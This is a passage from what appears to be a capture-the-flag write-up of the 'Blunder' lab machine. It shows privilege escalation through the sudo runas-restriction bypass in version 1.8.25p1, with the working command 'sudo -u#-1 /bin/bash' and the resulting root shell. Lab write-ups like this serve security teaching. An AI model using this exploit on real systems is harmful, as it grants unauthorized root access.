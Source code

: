 Hugo seems to be allowed to run `/bin/bash` as any user except for root. Let us check the version of sudo next.

```bash
hugo@blunder:/var/www$ sudo -V
Sudo version 1.8.25p1
```

The installed sudo version is vulnerable to an runas-restriction-bypass and can be exploited. The exploit in full detail is explained [here](https://seclists.org/oss-sec/2019/q4/18). The basic vulnerability lies in the fact that sudo and setresuid system-call interpret the user-id differently.

#### Exploiting sudo runas-restriction-bypass

We can exploit the vulnerability by supplying `-1` as the id of the user. Whilst sudo will interpret the number as `-1`, which is not equal to 0 (root), the setresuid system-call will return `0 ` (root) instead of `-1`, resulting into escalation to root-privileges.

```bash
hugo@blunder:~$ sudo -u#-1 /bin/bash
root@blunder:/home/hugo# cat /root/root.txt 
6e0ef2***************************
```

We successfully exploit the vulnerability and can read root.txt.
